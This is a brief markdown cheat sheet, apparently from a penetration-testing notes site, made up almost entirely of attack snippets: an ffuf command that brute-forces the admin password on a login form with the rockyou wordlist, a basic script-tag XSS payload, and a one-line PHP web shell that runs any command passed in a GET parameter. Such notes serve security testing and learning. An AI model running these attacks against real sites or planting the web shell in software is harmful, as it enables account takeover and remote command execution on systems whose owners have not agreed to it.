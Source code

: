 ```yaml
---
title: Cheat Sheet
layout: default
nav_order: 3
---
```


# Cheat Sheet

## [ffuf](https://github.com/ffuf/ffuf)

### Simple login page

```sh
ffuf \
  -u https://website.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt:FUZZ  \
  -fr "Incorrect"
```

## XSS

```html
<script>alert(1)</script>
```
  
## Web shell

### PHP

```php
<?php system($_GET['cmd']); ?>
```
